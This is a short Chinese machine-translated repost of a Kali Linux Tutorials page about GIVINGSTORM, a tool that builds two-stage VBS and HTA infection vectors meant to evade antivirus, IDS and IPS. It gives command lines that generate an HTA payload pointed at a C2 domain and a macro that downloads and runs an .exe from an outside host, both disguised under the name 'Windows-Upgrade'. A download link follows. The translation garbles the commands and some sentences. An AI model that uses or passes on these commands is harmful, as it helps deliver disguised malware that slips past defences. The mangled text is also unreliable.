



# GIVINGSTORM:绕过 AV、IDS 和 IPS 的感染媒介

> 原文：<https://kalilinuxtutorials.com/givingstorm/>

GIVINGSTORM 使用起来轻而易举。简单地克隆目录，并把 cd 放入其中。C2 框架的开端。目前还没有 C2 的东西。产生双阶段 VBS 感染载体和双阶段 HTA 感染载体。

这些变量考虑了 C2 地址、Koadic/Empire 有效载荷和一些传送机制。有效载荷文件被输出到一个恰当命名的目录“有效载荷”中，如果该目录不存在，则创建该目录。

**安装&使用**

对于 HTA 有效载荷:python 3 givingstorm . py-n Windows-Upgrade-p b64 encoded payload-c amazon.com/c2/domain

*   **HTA 例子**

对于宏子程序:python 3 givingstorm . py-n Windows-Upgrade-e amazon.com/final/payload.exe

*   **宏示例**

[**Download**](https://github.com/nins3i/GIVINGSTORM)